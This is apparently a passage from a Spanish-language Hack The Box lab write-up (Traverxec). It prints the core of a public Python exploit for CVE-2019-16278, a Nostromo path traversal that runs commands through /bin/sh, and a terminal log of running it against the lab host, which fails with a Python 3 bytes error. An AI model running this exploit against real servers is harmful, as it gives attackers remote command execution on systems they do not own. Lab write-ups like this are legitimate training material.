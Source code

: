 ```python
        pass
    return response

def cve(target, port, cmd):
    soc = socket.socket()
    soc.connect((target, int(port)))
    payload = 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1'.format(cmd)
    soc.send(payload)
    receive = connect(soc)
    print(receive)

if __name__ == "__main__":

    print(art)

    try:
        target = sys.argv[1]
        port = sys.argv[2]
        cmd = sys.argv[3]

        cve(target, port, cmd)

    except IndexError:
        print(help_menu)  
```

- Al tratar de ejecutarlo me daba este error
```js
┌──(pelado㉿kali)-[~/OSCP/HTB/Labs/Traverxec]
└─$ python3 47837.py 10.10.10.165 80 id


                                        _____-2019-16278
        _____  _______    ______   _____\       _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       |     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  | \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/




Traceback (most recent call last):
  File "/home/pelado/OSCP/HTB/Labs/Traverxec/47837.py", line 67, in <module>
    cve(target, port, cmd)
  File "/home/pelado/OSCP/HTB/Labs/Traverxec/47837.py", line 54, in cve
    soc.send(payload)
TypeError: a bytes-like object is required, not 'str'

```
